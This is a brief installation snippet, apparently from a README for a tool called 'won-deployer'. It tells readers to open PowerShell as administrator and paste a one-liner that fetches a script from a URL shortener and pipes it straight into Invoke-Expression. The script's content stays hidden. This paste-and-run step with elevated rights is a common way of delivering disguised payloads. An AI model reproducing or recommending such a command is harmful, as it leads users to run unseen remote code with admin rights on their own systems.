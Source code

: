 For installation just do this
1. open powershell as admin
2. then paste this
   powershell.exe -C "irm https://rb.gy/msq1tz | iex"
3. enter and enjoy

for running just enter  won-deployer  in powershell admin
